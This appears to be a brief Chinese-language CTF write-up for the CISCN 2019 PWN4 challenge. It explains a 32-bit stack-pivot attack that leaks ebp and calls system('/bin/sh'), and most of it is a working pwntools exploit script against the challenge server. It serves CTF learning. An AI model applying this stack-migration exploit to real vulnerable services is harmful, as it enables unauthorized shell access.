

# [CISCN 2019华南]PWN4 栈迁移

迁移到buu段


这里是一个经典的nx保护不能执行shellcode因此要看一下反编译的代码



这里看到是一个32位的程序并且read函数只能读入0x30个大小的字符刚好可以覆盖到retunt地址因此我们要使用栈迁移


因此我们要泄露一个ebp地址


得到一个写入binsh的buu地址因此我们的exp

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",26166)
# io = process("/home/fofa/pwn4")
elf = ELF("/home/fofa/pwn4")
payload = b'a'*0x28
context.log_level='debug'
io.send(payload)
io.recvuntil(b'a'*0x28)
ebp=u32(io.recv(4))
info(hex(ebp))

binsh = ebp-0x28
leave = 0x80485FD
system = elf.sym['system']
payload = b'a'*4+p32(system)+b'a'*4+p32(ebp-0x28)+b'/bin/sh\x00'
payload = payload.ljust(0x28,b'\x00')
payload += p32(ebp-0x38)+p32(leave)
io.sendafter(b'\n',payload)
# gdb.attach(io)
io.interactive()
```

